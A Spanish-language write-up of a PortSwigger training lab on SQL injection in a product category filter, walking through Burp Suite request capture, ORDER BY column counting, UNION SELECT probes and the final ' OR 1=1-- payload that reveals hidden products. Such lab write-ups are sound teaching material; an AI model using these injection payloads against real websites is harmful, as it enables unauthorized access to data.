


# 🧪 Write-up: SQL Injection - PortSwigger Lab 1

## 📌 Descripción del laboratorio (Traducción)

**Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data**

Este laboratorio contiene una vulnerabilidad de inyección SQL en el filtro de categoría de productos.  
Cuando el usuario selecciona una categoría, la aplicación ejecuta una consulta SQL como la siguiente:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

Para resolver el laboratorio, debes realizar un ataque de inyección SQL que haga que la aplicación muestre uno o más productos no publicados.

---

## 🌐 Acceso al laboratorio

Abrimos el laboratorio desde:

https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data

Una vez dentro, se nos redirige a una URL similar a:

```
https://0a2f004d037139e984c855ec00980049.web-security-academy.net/
```

La página es una tienda online con productos organizados por categorías.

---

## 🛠️ Preparación del entorno

- Abrimos **Burp Suite Professional**
- Activamos **FoxyProxy** en el navegador
- Navegamos por la web para capturar requests en **HTTP History**

Nos centramos en la request:

```
/filter?category=Gifts
```

---

## 📡 Request capturada

```http
GET /filter?category=Gifts HTTP/2
Host: 0a2f004d037139e984c855ec00980049.web-security-academy.net
Cookie: session=EOkqOm3vnY07W4fyyHruYmdb1gNgY6CH
User-Agent: Mozilla/5.0
Accept: text/html
```

La enviamos a **Repeater**.

---

## 📥 Response inicial

La respuesta devuelve correctamente los productos de la categoría:

```http
HTTP/2 200 OK
```

---

## 🎯 Identificación del punto vulnerable

El parámetro vulnerable es:

```
category
```

Consulta backend estimada:

```sql
SELECT name, description, price 
FROM products 
WHERE category = 'Corporate gifts' AND released = 1
```

---

## 🔍 Paso 1: Número de columnas (UNION-based)

Probamos:

```
' ORDER BY 1--
' ORDER BY 2--
...
' ORDER BY 9--
```

Resultados:

- Hasta `ORDER BY 8` → ✅ 200 OK  
- `ORDER BY 9` → ❌ 500 Internal Server Error  

➡️ Conclusión: **8 columnas**

---

## 🔍 Paso 2: Columnas que aceptan texto

Probamos:

```http
' UNION SELECT 'a',NULL,NULL,NULL,NULL,NULL,NULL,NULL--
```

Y variaciones moviendo `'a'`:

Resultados:

- Columnas válidas: **2, 3, 6, 8**

### 🖼️ Resultado visual correcto (200 OK)



### 🖼️ Error del servidor (500)


---

## 🚀 Paso 3: Ataque final (Solución del lab)

⚠️ Aquí está la clave: este lab **NO requiere UNION**.

Solo necesitamos romper la condición:

```sql
released = 1
```

### 💥 Payload final:

```
' OR 1=1--
```

### 📡 Request final:

```http
GET /filter?category=Gifts'+OR+1=1-- HTTP/2
```

---

## 🧠 ¿Qué ocurre en la base de datos?

La consulta se transforma en:

```sql
SELECT * FROM products 
WHERE category = 'Gifts' OR 1=1 --' AND released = 1
```

### 🔑 Claves:

- `1=1` → siempre verdadero  
- `OR` → devuelve todos los registros  
- `--` → comenta el resto  

---

## ✅ Resultado final

Se muestran productos ocultos (no publicados) y el laboratorio se marca como resuelto.

### 🖼️ Lab resuelto



---

## 🏁 Conclusión

Este laboratorio enseña:

- Identificación de SQLi en cláusulas WHERE
- Uso de `ORDER BY` para contar columnas
- Uso de `UNION SELECT`
- Importancia de entender el objetivo del lab
- Uso de condiciones lógicas (`OR 1=1`) para bypass

👉 Lección clave: **No siempre necesitas un ataque complejo. A veces, lo simple es lo correcto.**
